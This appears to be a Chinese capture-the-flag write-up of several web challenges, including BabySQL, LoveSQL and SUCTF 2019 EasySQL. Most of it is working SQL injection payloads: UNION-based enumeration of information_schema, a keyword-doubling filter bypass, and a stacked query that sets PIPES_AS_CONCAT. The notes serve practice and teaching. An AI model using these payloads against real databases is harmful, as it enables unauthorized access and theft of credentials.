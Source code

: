 判断字段为3： 1' oorrder bbyy 3 #，回显正常，试下4：1' oorrder bbyy 4 #          error


2，数据库
1' uniunionon selselectect 1,2,group_concat(schema_name) frfromom (infoorrmation_schema.schemata) #
ctf库。。。

然后表名：1' uniunionon selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek' #
得到表名：b4bsql,geekuser

查下b4bsql里面的列1' uniunionon selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name="b4bsql" #
列名：id,username,password
在这里插入图片描述
### [极客大挑战 2019]LoveSQL
https://blog.csdn.net/qq_45521281/article/details/105533626

1.1' or 1=1 #   进入，md5解密失败，继续注入
2.
/check.php?username=admin' order by 3%23&password=1     存在
/check.php?username=admin' order by 4%23&password=1     报错

可知共3个字段。用union查询测试注入点（回显点位）：

/check.php?username=1' union select 1,2,3%23&password=1

得到回显点位为2和3，查询当前数据库名及版本：

/check.php?username=1' union select 1,database(),version()%23&password=1


/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1

/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1

/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1

### [HCTF 2018]admin

https://darkwing.moe/2019/11/04/HCTF-2018-admin/

flask, session伪造

### [SUCTF 2019]EasySQL
堆叠注入

关键的查询代码是 select $post['query']||flag from Flag

输入 1 或 0 查询结果如图，要想办法让 || 不是逻辑或

当 sql_mode 设置了  PIPES_AS_CONCAT 时，|| 就是字符串连接符，相当于CONCAT() 函数
当 sql_mode 没有设置  PIPES_AS_CONCAT 时 （默认没有设置），|| 就是逻辑或，相当于OR函数  

关于非预期解 : *,1
拼接一下，不难理解 : select *,1||flag from Flag
等同于 select *,1 from Flag


官方给的 payload 是 1;set sql_mode=PIPES_AS_CONCAT;select 1

拼接一下就是 select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag
